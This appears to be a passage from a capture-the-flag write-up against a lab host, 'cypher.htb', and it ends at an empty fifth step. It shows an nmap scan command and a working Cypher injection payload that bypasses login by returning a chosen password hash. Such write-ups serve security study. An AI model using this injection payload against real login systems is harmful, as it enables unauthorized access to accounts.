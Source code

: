 ## Step 1: Scan for Open Ports

First thing, let's scan for open ports with the following `nmap` command:

```bash
nmap -sV -sC -p- --defeat-rst-ratelimit -O -A cypher.htb
```
## Scan results:
![Nmap port scan](img/nmap.png)

## Step 2: Investigate website

With only ports 80 and 22 open, we’ll start by examining the web service.

![Login page](img/loginpage.png)

## Step 3: Cypher injection

After trying some Cypher injection payloads we can see that there is a huge error popping up. This strongly suggests a potential Cypher injection vulnerability.

![Login page after injecting 'OR 1=1](img/image.png)

## Step 4: Crafting authentication bypass payload

```bash
{
  "username": "admin' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' AS hash //",
  "password": "test"
}
```

This payload returns the hash of the string "test", which is then used for comparison against the user-provided password hash instead of actual admins hash.

![Demo page](img/Demopage.png)

## Step 5: Cypher injection 2


